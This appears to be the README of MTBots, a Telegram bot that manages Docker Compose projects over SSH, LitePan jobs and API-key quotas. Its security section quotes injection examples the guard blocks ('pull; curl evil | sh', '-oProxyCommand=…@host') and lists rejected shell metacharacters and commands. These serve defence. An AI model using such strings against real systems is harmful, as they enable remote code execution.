

# MTBots

[](https://github.com/MbAIGC/MTBots/actions/workflows/docker.yml)
[](https://github.com/MbAIGC/MTBots/pkgs/container/mtbots)


三个 Telegram Bot 合成**一个进程、一个 token、一套权限、一个任务中心**：

| 原项目 | 现在负责 | 入口命令 |
|---|---|---|
| LDMG | 宿主机 Docker Compose 升级 / 停止 / 清理 | `/d_list` `/upgrade` `/prune` |
| LitePan-TGBot | 远程触发 LitePan 媒体自动化 | `/p_list` `/refresh` `/run` |
| ClinePass-TG-Bot | 多 Key 额度面板 | `/quota` `/addkey` `/keys` |

**模块 = 命名空间，命名空间由「你当前所在的位置」决定，不靠命令前缀。** 三边命令取并集后只有 4 个真冲突（`/start` `/help` `/status` `/list`），其余原样保留，老用户的肌肉记忆基本不用改。



## 索引

| 章节 | 内容 |
|---|---|
| [快速开始](#快速开始) | 源码跑 / Docker 跑，两个必填项 |
| [命令速查](#命令速查) | 全部命令 + 4 个冲突命令怎么消歧 |
| [界面与交互](#界面与交互) | 一次操作一条消息的九条规则、首页样例 |
| [配置](#配置) | 环境变量表、自检命令 |
| [多主机](#多主机) | 一条命令接入远端；清单字段表在 [主机清单](#主机清单) |
| [从旧三个 Bot 迁移](#从旧三个-bot-迁移) | 数据文件对应关系、与原版的有意差异 |
| [安全红线](#安全红线) | 默认姿态与九条硬规矩 |
| [开发与测试](#开发与测试) | 跑测试、469 个用例的分工 |
| [排错](#排错) | 症状 → 处理；含 [Docker 读不到项目](#docker-读不到项目) |
| [已知限制](#已知限制) | 没做的事，以及为什么 |
| [目录结构](#目录结构) | 文件都放在哪 |

设计与施工文档：[three-bots-merge-design.md](docs/three-bots-merge-design.md)（设计稿）、[porting-contract.md](docs/porting-contract.md)（施工契约）、[three-bots-merge-ux.md](docs/three-bots-merge-ux.md)（交互图）、[mtbots-merge-report.md](docs/mtbots-merge-report.md)（施工与验证记录）。

## 快速开始

```bash
cp .env.example .env
# 必填两项：
#   MTBOTS_BOT_TOKEN=123456:ABC...   （旧名 TELEGRAM_BOT_TOKEN / BOT_TOKEN / TG_BOT_TOKEN 都认）
#   ALLOWED_USER_IDS=你的用户ID       （默认拒绝：留空 = 谁都不能用，用 /id 查自己的 ID）
python3 -m mtbots --check            # 配置自检，不连 Telegram
python3 -m mtbots                    # 启动
```

Docker 部署。镜像由 GitHub Actions 在 push 到 `main`、打 `v*` tag 时构建并推到 `ghcr.io/mbaigc/mtbots`，公开可匿名拉取，带 `linux/amd64` 与 `linux/arm64`：

```bash
cp .env.example .env                 # 填 MTBOTS_BOT_TOKEN 与 ALLOWED_USER_IDS
mkdir -p data && sudo chown 10001:10001 data

# 容器用户要能读写宿主机的 docker.sock，填 socket 的属组 GID。
# NAS 上别用 getent group docker——常常没有这个组条目，查出来是空的
export DOCKER_GID=$(stat -c '%g' /var/run/docker.sock)

docker compose up -d                 # 用 GHCR 上的现成镜像
docker compose up -d --build         # 或本地构建（compose 里同时写着 build: .）
docker compose logs -f
```

不用 compose 就直接 docker run（挂载与 [docker-compose.yml](docker-compose.yml) 一致）：

```bash
docker run -d --name mtbots --restart unless-stopped \
  --env-file .env \
  -v /var/run/docker.sock:/var/run/docker.sock \
  -v /docker:/docker \
  -v "$PWD/data:/app/data" \
  --group-add "$DOCKER_GID" \
  ghcr.io/mbaigc/mtbots:latest
```

> 切换上线时换一个新 token：旧 bot 还在轮询同一个 token 会导致 409 冲突。

## 命令速查

| 命令 | 作用 |
|---|---|
| `/start` `/home` `/menu` | 首页总览，顶部显示 `MTBots vX.Y.Z`。每次打开都会刷新（TTL 内复用缓存）：先秒开缓存，后台刷完原地改同一条消息 |
| `/help` | 合并帮助，只渲染你有权限的章节 |
| `/status` | 有模块上下文 = 该模块状态；没有 = 首页总览 |
| `/list` | 有模块上下文 = 该模块列表；没有或在 Cline 里 = Docker 项目列表 |
| `/jobs` | 任务中心（跨模块长任务，可取消） |
| `/id` | 用户 ID / 会话 ID / 角色 / 容器 / 各模块自检 |
| `/cancel` | 取消当前等待中的操作与输入 |
| 🐳 `/d_list` | 项目管理面板 |
| 🐳 `/d_status` | 容器实时状态 |
| 🐳 `/upgrade` | `01` 升级第 01 个项目；`01 emby` 只升这个服务；`all` 全部 |
| 🐳 `/prune` | 镜像清理菜单（两步确认） |
| 🎬 `/p_list` | 规则分页面板，点按钮触发 |
| 🎬 `/p_status` | 连接状态 / 规则 / 盘名（等同旧 `/info`，`/ping` 同义） |
| 🎬 `/refresh` `/strm` | 有全量规则就只触发它，否则触发全部规则；`/refresh <盘名>` 只触发某块盘 |
| 🎬 `/refresh_<规则>` | 按规则 ID 精确执行（命令菜单里的动态项，也认正文里裸写的 `/refresh_xxx`） |
| 🎬 `/run <事件> [path]` | 直接触发事件，同名事件会全部触发；不给 path 用配置里的默认路径 |
| 🎬 `/p_menu` | 强制重刷命令菜单 |
| 🤖 `/quota` `/c_status` | 额度面板 |
| 🤖 `/addkey <别名> <KEY>` `/delkey <别名>` `/keys` `/clear confirm` | Key 管理 |

`/status` 与 `/list` 按当前位置解释：

| 输入 | 无活动模块 | 🐳 Docker 中 | 🎬 LitePan 中 | 🤖 Cline 中 |
|---|---|---|---|---|
| `/status` | 首页总览 | 容器实时状态 | 规则 / 盘状态 | 额度面板 |
| `/list` | Docker 项目列表 | 项目列表 | 规则列表 | Docker 项目列表 |

要绕开上下文就显式写：`/d_status` `/d_list` `/p_status` `/p_list` `/c_status` `/c_list`。

## 界面与交互

**一次操作只对应一条消息**，规则九条：

1. **一个会话只有一条面板**。返回、切模块、翻页都改你正看着的那条；命令触发的渲染新发到最底部并删掉旧面板。
2. **长任务收尾只留一条**。交互式任务把结果画在面板上，不再另发「✅ 升级完成」卡片；每步的执行消息（`✅ 拉取新镜像 - mt 完成`）成功后自动删除，**失败 / 取消 / 超时一律保留**，那几行就是排错依据。镜像清理会把 `Total reclaimed space` 抄进面板。
3. **只有真后台任务才推卡片**：比如 LitePan 的规则回执（几分钟后才出结果、没有面板可改），用同一份 `jobs.card_text()` 文案单发一条。
4. **收尾键盘给「下一步」**：一行只放其他已启用且有权限的模块入口，`🔙 返回列表` 回到你刚才那页。模块入口超过 3 个就整体不显示，只留 `🏠 返回`。
5. **跑的时候能在面板上中断**：进度面板键盘是 `[🛑 中断执行] [🧰 任务中心]`，不用去翻那条随时会消失的执行消息。
6. **失败时把命令尾巴抄进面板**：除了 `❌` 结论还带 `🔻 最后输出` 的最后 2–3 行（批量升级最多 6 行）。取消的项目记成 `⚠️ 已中断：`，不算失败。
7. **首页先秒开、再自己长好**：`/start`、`/status`、`/list` 回到首页时把数据刷进缓存，但绝不阻塞首帧——立刻用缓存渲染，正在刷的模块挂一行 `⏳ 刷新中`，刷完原地改这一条。同一模块在 TTL 内不重复刷（docker 15s / Cline 60s），点 `🔄 刷新` 无条件强制刷。刷完时你已经翻进别的面板，它就不会再改那条消息。
8. **停止就在升级那一页**：确认页是 `[✅ 升级] [🔙 返回列表] [🛑 停止] [🏠 返回]` 一行四个。`停止` = `compose stop`（不删容器、不动数据与卷），`升级` = `pull` + `up -d`（停掉的项目就靠它重新起来）。两个动作共用同一套执行锁、任务中心、流式进度和收尾面板。
9. **首页只有三个动作**：各模块入口 + `[🧰 任务中心] [🔄 刷新]`。帮助是命令（`/help`），不占按钮位。

首页（就是 `🏠 控制台` 那条消息）长这样，正文由各模块自己给，刷新完原地更新：

```text
🏠 控制台 · MTBots v1.5.9
───────────────
🐳 Docker · 2 台主机，NAS（15）、VPS（10）
🤖 Cline · 12 个 Key（正常 10 · 失败 2）
• k1 · 5时 15% / 周 30% / 月 20%
• k2 · 5时 0% / 周 3% / 月 1%
   [🧰 任务中心]  [🔄 刷新]
───────────────
🔄 11:02:42
```

只有一个 Key 时压成一行：`🤖 Cline · 1 个 Key · 主账号 5时 15% / 周 30% / 月 20%`。

## 配置

一份 `.env` 管三个模块，**三家旧变量名全部兼容**。完整清单与默认值见 [.env.example](.env.example)：

| 类别 | 变量 | 说明 |
|---|---|---|
| Telegram | `MTBOTS_BOT_TOKEN` / `TELEGRAM_BOT_TOKEN` / `BOT_TOKEN` / `TG_BOT_TOKEN` | 四选一，**只允许一个实例在轮询** |
| Telegram | `TG_API_BASE` | 可选，自建 API 镜像（大陆网络） |
| 白名单 | `ALLOWED_USER_IDS`、`TG_ALLOWED_IDS` | 取并集。默认拒绝：留空 = 谁都不能用 |
| 模块 | `MTBOTS_MODULES` | 默认 `docker,litepan,cline`，可单独下线某个模块 |
| 角色 | `MTBOTS_ROLES` | `123:owner,456:user`；默认白名单内全是 `owner`；`docker` 默认只给 owner/admin |
| 数据 | `DATA_DIR`、`CONFIG_FILE`、`LITEPAN_USERS_FILE`、`LOG_DIR` | 默认 `data/`：`config.json` + `litepan-users.json` + `logs/`，0600、原子写 |
| 🐳 | `PAGE_SIZE`、`COMMAND_TIMEOUT`、`PROJECTS_CACHE_TTL`、`DOCKER_GID` | 分页（6）、单命令超时（300s）、扫描缓存、socket 属组 |
| 🐳 多主机 | `DOCKER_HOSTS_FILE`、`SSH_MULTIPLEX`、`SSH_CONTROL_DIR` | 主机清单路径、ssh 连接复用开关（默认开，`0` 关）、复用套接字目录（默认 `/tmp`） |
| 🎬 | `LITEPAN_URL`、`LITEPAN_API_KEY`、`DRIVES`、`LITEPAN_ADMIN_USER/PASSWORD`、`LITEPAN_MENU_BUDGET` | 单用户模式；多用户改用 `data/litepan-users.json`，字段名与旧版一致 |
| 🤖 | `CLINEPASS_API_BASE`、`MAX_KEYS_PER_USER`、`STATUS_COOLDOWN`、`DEMO_MODE`、`SHOW_IDENTITY` | 与旧版一致 |

首页自动刷新的最短间隔由模块自己固定，与 `PROJECTS_CACHE_TTL` 无关：docker 15s（`ModuleSpec.refresh_ttl`）、Cline 60s。

```bash
python3 -m mtbots --check     # 配置 + 三个模块的静态自检
python3 -m mtbots --health    # 额外探测 docker compose / LitePan 连通性 / Cline 存储可写
python3 -m mtbots --list      # 列出已启用模块
```

## 多主机

一个 MTBots 同时管**本机 + 若干远端**上的 Compose 项目：列表、详情、升级（整项目 / 单服务 / 批量）、停止、镜像清理、`/d_status`、`--health` 全覆盖。

**不配这一节的文件时行为与单机完全一致**：只有一台「本机」，面板上没有主机字样，也不执行任何 ssh。删掉配置文件就回到单机。

细节（手动步骤、SSH 原理、面板样例、提速数据、安全建议）在 [docs/multi-host-setup.md](docs/multi-host-setup.md)：

| 想看什么 | 去哪 |
|---|---|
| 不用脚本、一步步手动接 | [手动步骤](docs/multi-host-setup.md#1-手动步骤)（七步，含权限与守卫） |
| 为什么是 ssh 而不是暴露 docker 端口 | [SSH 路线](docs/multi-host-setup.md#2-ssh-路线不暴露-docker-端口) |
| 多主机下面板长什么样 | [面板与按钮](docs/multi-host-setup.md#3-面板与按钮) |
| 首屏为什么是亚秒级 | [面板提速](docs/multi-host-setup.md#4-面板提速) |
| 回滚回单机 | [安全与回滚](docs/multi-host-setup.md#5-安全与回滚) |

### 接入

bot 侧一条命令，参数全在过程中问（每一问都有默认值，回车即可）：

```bash
cd /mbots && make add-host
```

| 脚本会问 | 说明 |
|---|---|
| 远端 IP 或域名 | 例如 `10.0.0.5` |
| 远端准备方式 | `1` 复用已有账号（已经能用 docker）；`2` 新建专用用户（需要一个能 sudo 的登录账号） |
| 账号 | 默认 `mtbots`（跟远端脚本、守卫示例一致）；方式 2 另问一个「登录做初始化」的账号，默认 `root`——必须是远端**已存在且能 sudo** 的账号 |
| 主机 id / 显示名 | 面板里的短名，默认从地址推导，例如 `vps` / `Oracle 东京` |
| 路径白名单 | 可留空（= 不限） |

随后自动做完：生成或复用 `data/ssh/id_ed25519`（属主交给容器用户 `10001`）→ 驱动远端准备 → 验证 `ssh → 守卫 → docker compose version` → 按 id **合并**写进 `data/docker-hosts.json` → 问你要不要重建容器。

脚本从 `main` 拉最新版（宿主机没 curl 才退回镜像里那份），**改脚本不用升级镜像**。没克隆仓库也能跑，在项目根的宿主机上执行：

```bash
cd /mbots
bash <(curl -fsSL https://raw.githubusercontent.com/MbAIGC/MTBots/main/scripts/setup-remote-host.sh)
```

这种模式下「项目根」= 当前目录，守卫与远端脚本不在本地时按 ref 自动下载（`--ref` 默认取当前 MTBots 版本，取不到用 `main` 并告警）。不是 bash 的 shell 用管道形式一样，脚本读 `/dev/tty`，提问不会被管道吃掉：`curl -fsSL <同一个 URL> | sh`。

想锁死版本就把 URL 里的 `main` 换成 tag（例如 `v1.5.9`），或给脚本加 `--ref v1.5.9`——配套的守卫与远端脚本按同一个 ref 取。建议在**宿主机**跑：向导最后那步要在项目根执行 `docker compose up -d --force-recreate`，`chown 10001` 也只有宿主机的 root 能做。

远端**没法让 bot 直接 ssh 进去**（要先用密码、或得从跳板机进）时，在远端以 root 跑这一条：

```bash
# 远端主机，root / sudo，就这一句，没有参数
sudo bash <(curl -fsSL https://raw.githubusercontent.com/MbAIGC/MTBots/main/docs/examples/mtbots-remote-setup.sh)

# 不是 bash 的 shell（群晖等 /bin/sh）用管道形式，效果一样：
# curl -fsSL https://raw.githubusercontent.com/MbAIGC/MTBots/main/docs/examples/mtbots-remote-setup.sh | sudo sh
```

只有几问，全部有默认值：授权/创建的账号（默认 `mtbots`）、公钥那行（可粘贴、给路径或给 http 地址）、是否装守卫（默认装）、守卫装到哪（默认 `/usr/local/bin`）。随后自动做完：建用户 → 加 `docker` 组 → 修家目录 / `.ssh` 属主权限 → 下载安装守卫 → 写 `authorized_keys`（`command="…",restrict`，幂等、改前备份、别人的 key 不动）→ 自检 docker 可用性。

不想记那行 curl 就让脚本替你打印（连公钥一起给）：`cd /mbots && make remote-setup`。远端脚本里的守卫默认从 `main` 拉（跟脚本同源），要锁版本加 `--ref v1.5.9`。远端跑完回 bot 这边把主机写进清单（向导发现密钥已可用就只写清单 + 验证）：

```bash
cd /mbots && make add-host          # 方式选 1「复用已有账号」，账号填 mtbots
```

两个脚本都支持把参数全写出来，`--yes` / `-y` 表示不再提问：

```bash
# bot 侧
docker compose exec mtbots sh /app/scripts/setup-remote-host.sh \
  --mode create --host 10.0.0.5 --login-user root --user mtbots --id vps --yes

# 远端侧
sudo bash <(curl -fsSL https://raw.githubusercontent.com/MbAIGC/MTBots/main/docs/examples/mtbots-remote-setup.sh) \
  --user mtbots --yes --pubkey-line 'ssh-ed25519 AAAAC3Nza... mtbots@bot'
# 公钥与守卫也能给 URL：--pubkey-url / --guard-url（守卫不给就从官方 URL 拉）
```

### 主机清单

```bash
cp docs/examples/docker-hosts.json /mbots/data/docker-hosts.json   # 然后按下面改
```

```json
{
  "hosts": [
    { "id": "nas", "label": "本机 NAS", "kind": "local" },
    { "id": "vps", "label": "Oracle 东京", "kind": "ssh",
      "target": "mtbots@10.0.0.5", "port": 22,
      "identity": "/app/data/ssh/id_ed25519",
      "known_hosts": "/app/data/ssh/known_hosts",
      "strict": "accept-new", "roots": ["/opt"] }
  ]
}
```

| 字段 | 必填 | 说明 |
|---|---|---|
| `id` | ✅ | 主机标识，`[a-z0-9_-]{1,16}`。面板与回调里只认这个 id，伪造的会被拒并记日志，绝不会拿去拼命令 |
| `label` | | 面板显示名，缺省用 `id` |
| `kind` | ✅ | `local`（本机，走挂进容器的 docker.sock）或 `ssh`（远端） |
| `target` | ssh ✅ | `user@host`。格式非法（带空格、分号、`-o` 之类）直接判为配置错误 |
| `port` | | 默认 22 |
| `identity` | | 私钥路径，默认 `/app/data/ssh/id_ed25519` |
| `known_hosts` | | 指纹文件，默认 `/app/data/ssh/known_hosts` |
| `strict` | | `accept-new`（默认）或 `yes` |
| `roots` | | 可选的路径白名单：只管理这些前缀下的项目 |
| `enabled` | | 默认 true；置 `false`（也认 `"false"` / `"0"` / `"no"`）可临时下线一台主机，面板、扫描、自检里都不会出现 |

清单坏了也能看出原因，不会静默：

* 没有这个文件 = 单机模式，什么都不提示（默认形态）；
* 整份 JSON 解析失败或没有 `hosts` 列表 = 面板提示「⚠️ 读取失败，已按单机模式运行：具体原因」；
* 某一条主机非法（`target` 写错、`kind` 拼错、私钥不存在、`roots` 不是绝对路径…）= 只有那台带错误说明，其余照常工作；
* `id` 重复 = 保留第一条并在面板提示。

清单默认读 `data/docker-hosts.json`，换位置设 `DOCKER_HOSTS_FILE=/app/data/xxx.json`。

### 生效与验证

```bash
cd /mbots
docker compose up -d --force-recreate        # 清单是启动时读的，改完要重建容器
docker compose logs --tail=50 mtbots | grep -E "主机|docker 模块已注册"
docker compose exec mtbots python -m mtbots --health | grep 🐳
```

然后回 Telegram 发 `/d_list`。

## 从旧三个 Bot 迁移

1. 旧 `.env` 基本原样搬（变量名全兼容），白名单取并集；
2. `ClinePass-TG-Bot/config.json` → `data/config.json`，Key 直接可用（原子写 + 0600 不变）；
3. `LitePan-TGBot/users.json` → `data/litepan-users.json`（`chat_ids` / `litepan_url` / `api_key` / `drives` / admin 字段名不变）；
4. `docker compose up -d --build`，用**测试 token** 并行验证 `--check`、`/start` 和三个模块各一条命令；
5. 确认无误后换正式 token，停掉旧三个容器（避免 409 抢占）。

回滚：把旧容器和旧 token 起回来即可，`data/` 两边互不影响。

与原三个 Bot 的差异（有意为之）：

| 变化 | 原因 |
|---|---|
| LitePan 的 `getUpdates` 轮询、offset 落盘、`threading.Thread` 全部删除，改为 PTB handler + `asyncio.to_thread` | 一个进程只能有一个轮询者；同步 HTTP 不能阻塞事件循环 |
| LitePan 不再自己调 `setMyCommands`，改为向 `MenuManager` 提交片段（预算 30 条，其余进内联键盘分页） | Telegram 全局限 100 条命令，三个模块共享；各自下发会互相擦菜单 |
| `/menu` 从「刷新 LitePan 菜单」变成「打开模块菜单」，强制刷新菜单改到 `/p_menu` | `/menu` 属全局层，语义必须唯一 |
| 旧的 `/status` `/list` `/start` `/help` 统一由路由解释 | 4 个冲突命令需要消歧 |
| ClinePass 的「白名单留空 = 所有人可用」被移除 | 任一模块的鉴权缺口都会变成整机缺口 |
| 三个模块的长任务统一进 `/jobs`，完成推送带模块标签与跨模块下一步按钮 | 一个任务中心 + 一次点击跨模块跳转 |
| `/d_status` `/d_list` `/p_status` `/p_list` `/c_status` `/c_list` 由路由注册并转发给模块 | 别名要先进模块上下文再渲染面板；同 group 内先注册者优先，模块再注册同名命令会变成死代码 |

## 安全红线

1. **默认拒绝**：白名单为空时谁都不能用（旧的「ClinePass 白名单留空 = 所有人可用」已移除）。
2. **统一脱敏**：`redact()` + `RedactingFilter` 覆盖所有 handler 出口——Bot Token、`sk_` / `lpk_` Key、邮箱、管理员密码，以及多主机的 IPv4（只留网段 `192.168.*.*`）、`192-168-1-5` 这种主机 id、ssh 目标里的用户名、`id_ed25519` 这类私钥文件名、`Authorization` / `Bearer` 头、Telegram 各类 id（`chat=***` / `user=***` / `update_id=***` / `message_id=***`）。API Key 只存在 `data/config.json`（0600、原子写），`addkey` 会先撤回含明文 Key 的消息。
3. **Docker 特权集中在一个模块**：`docker.sock` 只被 `features/docker` 使用并受 ACL 限制。想进一步收窄可换 `docker-socket-proxy`（主进程只发 HTTP，见设计稿 §6）。
4. **密钥渲染带 user_id**：Cline 面板只渲染调用者自己的 Key；LitePan 按 `chat_id` 绑定实例，不串台。
5. **破坏性操作两步确认**：确认按钮绑定发起人 + 60 秒过期（`PanelManager.ask_confirm/validate_confirm`）。
6. **非 root + 只读根文件系统**（compose 已配 `read_only` / `no-new-privileges`），只有 `data/` 与挂载的 compose 目录可写。
7. **远端主机不给 bot 任何端口或 socket**，只放一把被 `authorized_keys` 强制命令收窄的 ssh key：守卫限定 16 条白名单形态，并整条拒绝含 shell 元字符的命令（分号、`&`、`|`、`$`、反引号、`\`、`>`、`<`）——否则 `… pull; curl evil | sh` 会被尾部 `*` 匹配放行。即使 bot 主机被拿下也拿不到远端 shell。
8. **ssh 目标不允许以 `-` 开头**，包装命令里 `--` 放在目标**之前**结束选项解析，否则 `-oProxyCommand=…@host` 这种 target 会被 ssh 当成选项（选项注入）。
9. **多主机回调只认配置里的 host id**：面板里的主机名来自 `data/docker-hosts.json`，伪造的 id 会被拒并记日志，绝不会拿去拼命令。

## 开发与测试

```bash
# 需要 python-telegram-bot。仓库约定的本地依赖目录是 .vendor/（已 gitignore）。
# 机器上没有 pip 时可以这样引导一份：
#   curl -fsSL -o /tmp/pip.pyz https://bootstrap.pypa.io/pip/pip.pyz
#   python3 /tmp/pip.pyz install --target ./.vendor -r requirements.txt

make test          # = PYTHONPATH=./.vendor:. python3 -m unittest discover -s tests -t . -v
make check
```

全部是 stdlib `unittest`，不联网、不碰真实 Telegram 与 Docker（Docker 用例还会把 `subprocess` / `create_subprocess_exec` 换成抛异常的桩做反证）。当前 **469 个用例全绿**：

| 文件 | 用例 | 覆盖重点 |
|---|---|---|
| `tests/test_core.py` | 84 | 文本分片与 HTML 出口转义、`SafeBot` 降级、ACL 默认拒绝、存储原子写 / 0600、任务中心与收尾文案、跨模块入口取舍、菜单作用域、面板唯一与两步确认、配置兼容、日志脱敏、路由消歧、首页两帧刷新（TTL / 🔄 强制 / busy 去重 / 只在还停在首页时回填） |
| `tests/test_docker_module.py` | 94 | 排序分页、pull 噪音过滤、清理候选、回调载荷、扫描失败诊断（socket GID / 未挂载目录 / 缺命令）、执行消息收尾、多主机（清单校验 / ssh 包装 / 逐主机扫描 / 退出码 / 只认配置内 host id）、提速（服务列表缓存与并发、主机并行、ssh 复用、255 快速失败、冷缓存服务名校验）、停止容器 |
| `tests/test_litepan_module.py` | 59 | slug 构建（拼音 / 限长 / 去重）、users.json 校验、发现解析与缓存、菜单预算、触发与回执 |
| `tests/test_cline_module.py` | 149 | 额度解析与渲染、Key 掩码与指纹、别名校验、存储读写与自愈、默认拒绝、首页摘要（单 / 多 Key、正常与失败计数、别名转义、计数与快照同源）、刷新钩子（查询锁去重、失败记账、Key 变更即作废快照） |
| `tests/test_setup_script.py` | 28 | 两个接入脚本：ssh / scp 打桩跑完整向导（清单幂等合并 / `command=` 守卫行 / create 模式 / dry-run 不落地 / 非法 id 被拒）、远端准备脚本（参数校验、守卫 0755 + authorized_keys 0600 + 幂等 + 别人的 key 不动）、curl 模式与 `bash <(curl …)`（项目根取当前目录、不读 stdin、按 `--ref` 下载配套脚本）、老 sshd（<7.2）改用长格式选项、公钥已装 + 守卫生效不被误判、**守卫真的用 `sh` 跑一遍**（放行含 `stop`，拒绝 `bash -i` / `docker run` / `docker exec` / `compose down` / 命令链） |
| `tests/test_integration.py` | 55 | 三个真实模块一起装配、命令不重复、菜单合并、`--check` 离线可跑；真 `telegram.Update` 走 PTB dispatcher 的端到端用例（不重复执行、全角命令可救援、下线模块的按钮有反馈、点按钮原地改同一条面板、所有面板文案过 Telegram HTML 合法性校验）；多主机装配（按主机分组、故障 / 配置错的远端要有段并写明原因、单主机无主机标题、伪造 host id 被拒、`/upgrade` 编号与面板一致、冷缓存下不误判服务不存在）；收尾只留一条消息（批量升级不推卡片、执行成功即删、失败抄尾部输出、进度面板可中断） |

## 排错

| 现象 | 处理 |
|---|---|
| 按钮点了没反应、「🏠 返回」看着无效 | 一条会话只保留一条面板消息（home / docker / litepan / cline 共用），点按钮就地改这条，`/start` 这类命令新发到最底部并删掉旧面板。仍无反应就看 `docker compose logs -f` 里的 `HTML 解析失败`——那说明文案里有 Telegram 不认的标签，出口已自动降级纯文本，把日志贴出来即可定位 |
| LitePan 报 `Can't parse entities: unsupported start tag "盘名"` | 已修：`SafeBot`（`mtbots/bot.py`）在出站口把白名单外的 `<` 全部转义，真解析失败时降级纯文本重发；`tests/htmlcheck.py` 会把每个面板文案离线校验一遍 |
| Docker 面板「⚠️ 暂未检测到任何 Docker Compose 项目」 | 面板会直接给出原因；`permission denied` 还会实测 socket 属组并告诉你填哪个 GID，见 [Docker 读不到项目](#docker-读不到项目) |
| 点旧按钮提示「菜单已过期」 | 回调里的长载荷（规则名、项目名）存在内存，Bot 重启后失效，重发一次命令即可 |
| 命令菜单丢了 / 群里只剩 `/start`、`/help` | 已修（≥ 1.0.7）：菜单往会话作用域下发时曾把 `chat_id` 当 `user_id` 查权限，群 / 频道的负 id 永远查不到，被下发成「只剩基础命令」；而 Telegram 一有会话作用域就覆盖默认作用域。现在私聊按本人权限裁剪、群 / 频道取该会话全量命令、空片段一律不下发。升到 ≥ 1.0.7 后发一次 `/p_menu` 或重启即可重刷；仍不对就把日志里 `命令菜单已更新：scope=...` 那几行贴出来 |
| 面板：「主机 vps：SSH 连不上或认证失败」 | 按面板给的自测命令在容器里跑（见 [手动步骤 1.4](docs/multi-host-setup.md#14-装公钥--强制命令守卫) 的最后一段）。输出里已经写了原因：`Connection refused` = 端口 / 网络；`Permission denied (publickey)` = 公钥没装对；`not accessible: Permission denied` = 私钥权限或属主不对（见 [1.1](docs/multi-host-setup.md#11-目录与权限)） |
| 「私钥不存在：/app/data/ssh/id_ed25519」 | 密钥没生成或没放进 `data/ssh/`；确认 `ls -l data/ssh` 属主是 `10001`。如果报的是 `Permission denied (publickey)`，先查权限再看远端公钥——容器读不到私钥时也是这个表现 |
| 「远端未安装 docker compose / docker」 | 远端 `sudo -u mtbots docker compose version` 不过，装 CLI 或修 PATH |
| 「远端授权只允许 compose 操作」 | 守卫拦下了这条命令：要么命令不在白名单，要么没走守卫但命令拼错了。**升级 MTBots 后新功能（例如 v1.5.8 的「停止」）报这个，说明远端那份守卫还是旧的**——重跑一次远端那一条命令（[手动步骤 1.4](docs/multi-host-setup.md#14-装公钥--强制命令守卫)）即可，守卫是普通脚本，更新它不用重建容器 |
| 远端项目一个都看不到 | 检查 `roots` 白名单；在容器里手跑 `ssh … docker compose ls -a --format json` 看远端到底返回什么 |
| 面板少了几个项目 | 若提示「没有 compose 文件路径（ConfigFiles 为空）」或「被 roots 挡掉」，照提示处理；`python -m mtbots --health` 会把这两类无条件列出来 |
| 中断了但远端还在跑 | 取消 = 断开 ssh（远端通常被 SIGHUP 带走，但不保证）；`pull` / `up -d` 幂等，重跑一次即可 |
| 想临时关掉某台主机 | 清单里给它加 `"enabled": false`，重建容器 |

### Docker 读不到项目

面板把三种原因分开说。`permission denied` 时会实测 socket 属组和容器进程的附加组，直接给出要填的数字：

```text
⚠️ 读不到 Docker：permission denied —— 容器里的 mtbots 用户没有 /var/run/docker.sock 的权限。
   实测：容器里 /var/run/docker.sock 属组 gid=996，本进程附加组是 10001，不含它。
   在 .env 写 DOCKER_GID=996，再用 docker compose up -d --force-recreate 重建（restart 不生效）。
```

手工核对用宿主机上的 `stat -c '%g' /var/run/docker.sock`。NAS（busybox）上常常没有 `docker` 组条目，`getent group docker` 返回空，只能猜，线上就有人先猜 998、再猜 0，两次都无效。两个坑：

* 改完 `.env` **必须** `--force-recreate`：`docker compose restart` 不会重新套用 `group_add`；
* 查出来是 `0`（socket 属 `root:root`，群晖等 NAS 常见）时加组救不了：要么让容器用 root 跑（compose 里加 `user: "0:0"`），要么上 `docker-socket-proxy`。

**情况二：项目扫到了，但目录在容器里不存在。** 这是权限修好后紧接着会撞上的第二个坑：

```text
ℹ️ 有 16 个 compose 项目扫到了，但它们的目录在容器里不存在：/mnt/data2/docker/clinepass-tg-bot、/mnt/data2/docker/cpa 等 16 个
   修：compose 命令按宿主机的原路径执行，所以要按相同路径挂进来——在 compose 的 volumes 里加 -v /mnt/data2/docker:/mnt/data2/docker，再重建容器。
```

`docker compose ls` 给的是宿主机路径，而 mtbots 要用 `docker compose -f <那个路径>` 去执行，所以容器里必须存在同一个路径。按提示把公共父目录挂进来即可（面板会自动算出这条 `-v`）：

```yaml
    volumes:
      - /var/run/docker.sock:/var/run/docker.sock
      - /mnt/data2/docker:/mnt/data2/docker      # 你的 compose 项目根目录，路径左右必须一样
      - ./data:/app/data
```

改完 `docker compose up -d`（加 `--force-recreate` 更保险）。项目散在不同根下时面板不给公共 `-v`，逐个挂。

## 已知限制

* 群里「回复某条面板消息定位上下文」还没实现；面板按会话唯一（跨模块共用），命令触发时新发到最底部、旧面板删除。
* Docker 模块是**进程内**模块（不是 sidecar + `docker-socket-proxy`）。单人自用可接受；多人场景建议按设计稿 §4 方案 B 拆出去。
* Docker 模块只能看到「挂进容器的那些 compose 目录」，且容器内路径必须与宿主机一致（探针靠 `docker compose ls` 的宿主机路径定位工作目录）。
* 远端主机只支持 **SSH 执行**，不做远端构建 / git 操作 / 日志查看 / `exec`，也不做跨主机迁移。
* 多主机**不并行执行**：全局仍是一把任务锁，一次只跑一个升级（面板只有一个进度面）。
* LitePan 命令菜单按会话差异化下发受 `MenuManager` 限制：目前所有已授权会话共用一份片段（含 `refresh_<slug>`）。
